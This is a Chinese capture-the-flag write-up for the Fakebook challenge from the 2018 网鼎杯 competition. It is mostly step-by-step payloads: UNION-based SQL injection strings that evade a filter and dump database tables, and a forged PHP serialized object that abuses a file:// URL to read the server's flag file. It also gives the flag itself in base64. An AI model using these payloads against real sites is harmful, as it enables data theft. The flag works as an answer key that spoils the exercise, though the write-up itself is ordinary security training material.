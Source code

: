 # 原创
：  [网鼎杯 2018]Fakebook

# [网鼎杯 2018]Fakebook

#### [网鼎杯 2018]Fakebook

## 考点

> 
Sql注入、信息泄露、ssrf、PHP反序列化


## 思路

> 



## Payload

> 
尝试手工注入，发现是数字型注入


> 
用 `order by number#` 测试为4列，且过滤了union select


> 
执行sql语句 `-1 union/**/select 1,2,3,4#` 发现回显位为第二位


> 
爆数据库：`-1 union/**/select 1,database(),3,4#`


> 
爆表：`-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#`


> 
爆字段：`-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#`


> 
爆data字段数据：`-1 union/**/select 1,data,3,4 from users#`


> 
得到一个序列化后的内容：`O:8:"UserInfo":3:{s:4:"name";s:9:"H3rmesk1t";s:3:"age";i:20;s:4:"blog";s:33:"https://blog.csdn.net/LYJ20010728";}`


> 
访问 robots.txt，提示存在 `/user.php.bak`，下载下来查看


> 
根据data的回显相关内容构造Payload：`-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:9:"H3rmesk1t";s:3:"age";i:20;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#`


> 
查看源码发现`PD9waHANCg0KJGZsYWcgPSAiZmxhZ3s3Yzc5NDg3Mi00ZGU5LTQ4NWMtYjI5MC02MjliNGYwNmFmZjZ9IjsNCmV4aXQoMCk7DQo=`，base64解密得到flag

